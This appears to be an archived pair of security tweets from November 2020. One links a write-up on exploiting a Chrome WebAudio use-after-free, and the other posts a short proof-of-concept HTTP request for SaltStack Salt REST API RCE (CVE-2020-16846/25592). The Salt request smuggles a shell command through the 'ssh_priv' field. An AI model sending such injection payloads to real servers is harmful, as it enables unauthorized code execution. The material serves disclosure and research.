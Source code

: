 
# GHSecurityLab
**https://twitter.com/GHSecurityLab/status/1329091248997625857 _at 2020-11-18 15:57:01_**
<blockquote>
ICYMI @mmolgtm explains how to exploit CVE-2020-6449, a use-after-free (UAF) in the WebAudio module of Chrome, and achieve a sandboxed RCE. Read also how he used #CodeQL to accelerate his code audit https://t.co/k5ddV8Scv3
</blockquote>

* https://github.co/3msMoMy

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>29</code></td>
<td>Favorites: <code>81</code></td>
</tr></table>

---

# wugeej
**https://twitter.com/wugeej/status/1328942729095753731 _at 2020-11-18 06:06:51_**
<blockquote>
CVE-2020-16846
CVE-2020-25592
SaltStack Salt REST API RCE

[PoC]
POST /run HTTP/1.1
Host: [Victim:8888]
...
...

token=12312&amp;client=ssh&amp;tgt=*&amp;fun=a&amp;roster=whip1ash&amp;ssh_priv=aaa|open%20/System/Applications/Calculator.app%3b

https://t.co/jdgIUFSW6x https://t.co/s7xlLDkHDX
</blockquote>

* https://paper.seebug.org/1398/

<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+media+EnFaSLqW4AEqKqC.jpg" alt="http://pbs.twimg.com/media/EnFaSLqW4AEqKqC.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>19</code></td>
<td>Favorites: <code>52</code></td>
</tr></table>

---

